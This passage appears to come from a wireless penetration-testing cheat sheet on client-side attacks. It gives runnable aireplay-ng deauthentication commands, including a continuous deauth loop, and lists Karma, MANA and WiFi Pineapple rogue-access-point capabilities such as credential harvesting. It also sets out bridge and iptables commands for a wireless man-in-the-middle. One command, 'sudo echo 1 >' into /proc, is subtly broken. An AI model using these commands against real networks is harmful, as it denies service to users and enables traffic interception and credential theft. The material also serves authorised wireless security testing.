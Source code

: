 </div>

<div>

## 📱 Client-Side Attacks

### 🔄 Deauthentication Attacks
```bash
# Deauth specific client
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c CC:DD:EE:FF:00:11 wlan0mon

# Deauth all clients
sudo aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# Continuous deauth attack
while true; do
    sudo aireplay-ng -0 1 -a AA:BB:CC:DD:EE:FF wlan0mon
    sleep 1
done
```

### 🎣 Karma and MANA Attacks
```yaml
Karma Attack:
  - Respond to all probe requests
  - Impersonate any requested network
  - Automatic client association
  - Credential harvesting opportunities

MANA Framework:
  - Advanced rogue AP toolkit
  - Automatic AP impersonation
  - Client device fingerprinting
  - Credential collection and relay
  - EAP attack capabilities

WiFi Pineapple:
  - Hardware-based rogue AP
  - Automated attack deployment
  - Web-based management interface
  - Modular attack framework
  - Client device tracking
```

### 🛰️ Wireless Man-in-the-Middle
```bash
# Setup bridge interface
sudo brctl addbr br0
sudo brctl addif br0 eth0
sudo brctl addif br0 wlan1

# Enable IP forwarding
sudo echo 1 > /proc/sys/net/ipv4/ip_forward

# Setup iptables for traffic interception
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i br0 -o eth0 -j ACCEPT
sudo iptables -A FORWARD -i eth0 -o br0 -j ACCEPT
```
